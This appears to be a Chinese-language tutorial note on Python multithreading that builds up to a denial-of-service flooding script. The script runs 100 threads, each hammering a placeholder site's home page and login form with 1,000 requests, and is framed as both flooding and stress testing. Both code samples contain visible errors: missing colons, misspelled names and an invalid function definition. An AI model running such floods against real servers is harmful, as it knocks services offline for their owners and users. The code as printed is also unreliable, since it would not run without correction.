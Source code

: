 # 多线程与流量泛洪

## 一、简介

- 并发操作：如果一个单核的CPU，是不存在严格意义上的并发，只是因为处理时间极短，所以感觉上时并发操作的
- 针对多核CPU，例如4核CPU严格意义上并发操作是4个
- 线程与进程
  - 每一个应用程序，至少会有一个进程，并且拥有PID和独立的内存空间。
  - 每一个进程，至少拥有一个线程，而县城并没有独立的内存空间

- 示例代码

  ```python
  import threading,time
  
  # 单线程情况下，下述代码执行消耗5秒
  def test_01()
      for i in rang(5):
          print(time.strftime('%Y-%m-%d %H:%M:%S'))
          time.sleep(1)
      
  # 使用多线程的方式输出5次时间
  def test_02()
      print(time.strftime('%Y-%m-%d %H:%M:%S'))
      time.sleep(1)
  for i in range(5)
  	t = threading.Thread(target=test_02)            # 实例化一个线程，并且指定调用test_02
      t.start()                                       # 启动线程
  ```


## 二、多线程的流量泛洪

- DOS攻击的核心：利用常规技术或特殊技术，想办法消耗掉目标服务器的资源（CPU、内存、硬盘、带宽、链接数等），使其无法正常体提供对外服务。

  ```python
  import threading,time,requests
  
  # 定义一个装饰器，可以用于收集其响应时间
  def performance(func):
      def inner():
          start = time.time()
          func()
          end = time.time()
          print(f"请求：{func._name_}的响应时间为：{end - start}")
      return inner
  
  
  session = requests.session()
  
  @performance
  def home():
      resp = session.get('http://xxxx.com/')
      
  @performance
  def login():
      data = {'username':'admin','password':'admin123','verifycode':'0000'}
  	resp = requests.post(url='http://xxxx.com/',data=data)
      
  # 基于HTTP协议，进行流量泛洪、压力测试、性能测试
  def flood:
      for i in range(1000):
          try:
              home()
          	login()
          except:
              pass
          
  
  for i in range(100):
      t = threading.Thread(target=flood).start()
      
  ```

  
